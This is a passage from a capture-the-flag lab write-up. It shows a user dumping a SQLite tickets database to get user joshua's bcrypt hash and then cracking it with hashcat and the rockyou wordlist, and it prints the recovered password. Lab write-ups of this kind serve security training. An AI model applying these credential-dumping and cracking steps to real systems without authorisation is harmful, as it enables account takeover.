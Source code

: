 The file is a `sqlite` database, we can open it using `sqlite3`.

```terminal
svc@codify:/var/www/contact$ sqlite3 tickets.db
SQLite version 3.37.2 2022-01-06 13:25:41
Enter ".help" for usage hints.
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
sqlite> 
```

We found the users table that has `joshua`'s hash. Let's crack it using `hashcat` with mode 3200.

```terminal
λ hashcat -m 3200 crack.hash rockyou.txt                                         
hashcat (v6.2.6) starting                                                              
                                                                                       
                                                                              
                                                                                       
Optimizers applied:                                                                    
* Zero-Byte                                                                            
* Single-Hash                                                                          
* Single-Salt                                                                          
                                                                                       
Watchdog: Hardware monitoring interface not found on your system.                      
Watchdog: Temperature abort trigger disabled.                                          
                                                                                       
Host memory required for this attack: 116 MB                                           
                                                                                       
Dictionary cache hit:                                                                  
* Filename..: rockyou.txt                                                              
* Passwords.: 14344384                                                                 
* Bytes.....: 139921497                                                                
* Keyspace..: 14344384                                                                 
                                                                                       
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2:spongebob1                
                                                                                       
Session..........: hashcat                                                             
Status...........: Cracked                                                             
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))                                 
Hash.Target......: $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLH.../p/Zw2        
Time.Started.....: Tue Jan 02 08:50:29 2024 (1 min, 0 secs)                            
Time.Estimated...: Tue Jan 02 08:51:29 2024 (0 secs)                                   
Kernel.Feature...: Pure Kernel                                                         
Guess.Base.......: File (rockyou.txt)                                                  
Guess.Queue......: 1/1 (100.00%)                                                       
Speed.#1.........:       26 H/s (13.88ms) @ Accel:1 Loops:1 Thr:16 Vec:1               
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)          
Progress.........: 1536/14344384 (0.01%)                                               
Rejected.........: 0/1536 (0.00%)                                                      
Restore.Point....: 0/14344384 (0.00%)                                                  
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4095-4096                            
Candidate.Engine.: Device Generator                                                    
```
